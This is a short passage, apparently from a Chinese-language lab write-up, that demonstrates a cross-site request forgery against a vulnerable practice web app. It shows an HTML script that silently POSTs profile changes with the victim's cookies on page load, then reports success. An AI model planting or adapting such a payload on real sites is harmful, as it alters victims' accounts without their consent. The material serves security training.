 ```html
<script>
fetch("http://47.242.11.182:8080/vul/csrf/csrfpost/csrf_post_edit.php",{method:"POST",credentials:"include",headers:{"Content-Type":"application/x-www-form-urlencoded"},body:"sex=1&phonenum=12&add=22&email=22&submit=submit"});
</script>
```

### 刷新后自动发包

![image-20250901194411174](images/image-20250901194411174.png)

修改成功
